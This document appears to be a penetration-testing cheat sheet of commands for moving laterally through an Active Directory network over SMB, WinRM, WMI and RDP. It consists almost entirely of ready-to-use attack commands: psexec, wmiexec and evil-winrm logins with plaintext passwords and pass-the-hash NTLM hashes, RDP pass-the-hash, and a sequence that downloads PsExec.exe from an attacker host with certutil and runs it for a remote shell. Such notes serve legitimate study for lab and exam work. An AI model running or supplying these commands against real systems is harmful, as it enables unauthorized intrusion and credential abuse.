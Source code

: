 
#### AD Lateral Movement

##### Network

```bash
nslookup #use this tool to internally find the next computer to pivot to.
example-app23.example.com #found this from either the tgt, mimikatz, etc. Shows you where to go next
Address: 10.11.1.121
```

###### SMB

```bash
impacket-psexec jess:Flowers1@172.16.138.11 cmd.exe
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 Admin@192.168.129.59
impacket-psexec -hashes lm:ntlm zenservice@192.168.183.170
```

###### WINRM

```bash
evil-winrm -u <user> -p <password> -i 172.16.138.83
evil-winrm -u <user> -H <hash> -i 172.16.138.83
```

###### WMI

```bash
proxychains -q impacket-wmiexec forest/bob:'password'@172.16.138.10
impacket-wmiexec forest/bob:'password'@172.16.138.10
```

###### RDP

```bash
rdesktop -u 'USERN' -p 'abc123//' 192.168.129.59 -g 94% -d example
xfreerdp /v:10.1.1.89 /u:USERX /pth:5e22b03be2cnzxlcjei9cxzc9x
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1600 /v:192.168.238.191 /u:admin /p:password
xfreerdp /u:admin  /v:192.168.238.191 /cert:ignore /p:"password"  /timeout:20000 /drive:home,/tmp
```

###### Accessing shares with RDP

```bash
windows + R
type: \\172.16.120.21
Enter User Name
Enter Password
[now view shares via rdp session]
```

#### TGT Impersonation

```bash
PS> klist # should show no TGT/TGS
PS> net use \\SV-FILE01 (try other comps/targets) # generate TGT by auth to network share on the computer
PS> klist # now should show TGT/TGS
PS> certutil -urlcache -split -f http://192.168.119.140:80/PsExec.exe #/usr/share/windows-resources
PS>  .\PsExec.exe \\SV-FILE01 cmd.exe
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname